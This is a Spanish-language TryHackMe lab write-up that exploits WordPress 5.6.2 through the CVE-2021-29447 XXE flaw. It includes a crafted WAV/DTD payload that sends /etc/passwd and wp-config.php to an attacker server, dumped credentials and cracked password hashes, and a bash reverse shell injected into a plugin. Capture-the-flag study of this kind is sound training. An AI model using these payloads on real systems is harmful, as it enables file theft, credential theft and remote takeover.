

# Wordpress: CVE-2021-29447 - TryHackMe

## Reconocimiento

Vamos a realizar un escaneo de puertos para identificar los servicios que se están ejecutando en la máquina objetivo. Utilizaremos Nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.128.161.164 -oG allPorts

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 62
80/tcp   open  http    syn-ack ttl 62
3306/tcp open  mysql   syn-ack ttl 62
```

Veamos ahora las versiones de los servicios:

```bash
nmap -sCV -p22,80,3306 10.128.161.164

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f0:65:b8:42:b7:c3:ba:8e:fe:e4:3c:cd:57:f1:29:2e (RSA)
|   256 42:1e:1b:8f:19:38:99:2e:36:70:cf:0e:b6:31:92:14 (ECDSA)
|_  256 8e:89:43:de:5d:9b:99:66:c4:2a:93:17:f3:0e:e1:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.6.2
|_http-title: Tryhackme &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.18 (Ubuntu)
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2021-05-26T21:23:31
|_Not valid after:  2031-05-24T21:23:31
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.16.04.1
|   Thread ID: 8
|   Capabilities flags: 65535
|   Some Capabilities: ODBCClient, Support41Auth, LongColumnFlag, SupportsTransactions, FoundRows, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SwitchToSSLAfterHandshake, LongPassword, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, SupportsCompression, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Icd58?IY#Cf&a\x17\x19t&/\F
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que ssh es vulnerable a enumeración de usuarios, y que el servicio web es un Wordpress 5.6.2, el cual es vulnerable a la vulnerabilidad CVE-2021-29447.

Vamos a enumerar los usuarios de Wordpress utilizando la herramienta `wpscan`.

```bash
wpscan --url http://10.128.161.164 -e vp,u --api-token=<API_TOKEN>

# -e vp: Enumerar plugins vulnerables
# -e u: Enumerar usuarios

| [!] 46 vulnerabilities identified:
 |
 | [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     Fixed in: 5.6.3
```

Vemos que la versión de Wordpress es 5.6.2. y que hay 46 vulnerabilidades identificadas, incluyendo la vulnerabilidad CVE-2021-29447.

Hemos usado api-token para enumerar los usuarios y plugins vulnerables.

Nos dan el usuario con credenciales débiles:
user: test-corp
password: test

Vamos a crear un .wav file con el siguiente contenido:

```bash
nano poc.wav
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://192.168.154.96:443/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Y creamos un archivo NAMEEVIL.dtd con el siguiente contenido:

```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.154.96:443/?p=%file;'>" >
```

Y ahora creamos un servidor web

```bash
php -S 192.168.154.96:443
```

Y subimos el archivo payload.wav a la web vulnerable.



Nos devuelve el contenido del archivo /etc/passwd en base64

```bash
[Thu Jul 16 18:58:51 2026] 10.128.161.164:33760 Accepted
[Thu Jul 16 18:58:51 2026] 10.128.161.164:33760 [200]: GET /NAMEEVIL.dtd
[Thu Jul 16 18:58:51 2026] 10.128.161.164:33760 Closing
[Thu Jul 16 18:58:51 2026] 10.128.161.164:33762 Accepted
[Thu Jul 16 18:58:51 2026] 10.128.161.164:33762 [404]: GET /?p=hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X - No such file or directory
```

Creamos un archivo llamado `decode.php` con el siguiente contenido para decodificar el contenido base64:

```php
<?php echo zlib_decode(base64_decode('hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X')); ?>
```

Nos devuelve el contenido del archivo /etc/passwd:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
stux:x:1000:1000:CVE-2021-29447,,,:/home/stux:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
```

Para ver el archivo /var/www/html/wp-config.php modificando el archivo NAMEEVIL.dtd con el siguiente contenido:

```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.154.96:443/?p=%file;'>" >
```

Vemos información muy relevante:

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Entramos al cliente de mysql con las credenciales obtenidas:

```bash
mysql -h 10.128.145.72 -P 3306 -u thedarktangent -p

ERROR 2026 (HY000): TLS/SSL error: Certificate verification failure: The certificate is NOT trusted.
```

Vemos que no nos permite conectarnos por el error de certificado, así que vamos a conectarnos sin SSL:

```bash
mysql -h 10.128.145.72 -P 3306 -u thedarktangent -p --ssl=false

MySQL [(none)]> 
```

Seleccionamos la base de datos wordpressdb2 y vemos las tablas:

```bash
MySQL [(none)]> use wordpressdb2;

MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+

MySQL [wordpressdb2]> Select * from wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
```

Vemos 2 usuarios, el usuario test-corp y el usuario corp-001. Podríamos crackear las contraseñas.

Vamos a crackear la contraseña del usuario corp-001:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash

teddybear        (?)
```

Vamos a entrar por ssh con el usuario corp-001 y la contraseña teddybear en wordpress:

Vemos que el usuario corp-001 tiene permisos de administrador, así que podemos subir un shell.

Nos metemos al editor de plugins y colamos este cófigo en el plugin `akismet`:

```php
  system("bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1'");
```

Le damos a acticvar y ya teniamos un listener en nuestro equipo atacante:

```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.128.145.72 53778

www-data@ubuntu:/var/www/html/wp-admin$ 
```

Vamos a la ruta /home/stux/flag y encontramos el flag.txt.